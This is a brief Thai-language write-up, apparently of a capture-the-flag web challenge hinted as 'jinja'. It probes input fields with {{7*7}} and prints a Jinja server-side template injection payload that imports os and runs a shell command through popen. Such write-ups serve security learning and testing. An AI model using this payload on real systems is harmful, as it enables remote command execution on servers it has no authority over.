

vacine web application

ชื่อใบ้มาว่า jinja

jinja คือ template engine บน python ใช้แสดง หน้าเว็บแบบ dynamic ตาม user input


https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

ผมเลยใส่ {{7*7}} ทุก input feild





https://github.com/dgtlmoon/changedetection.io/security/advisories/GHSA-4r7v-whpg-8rx3

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```


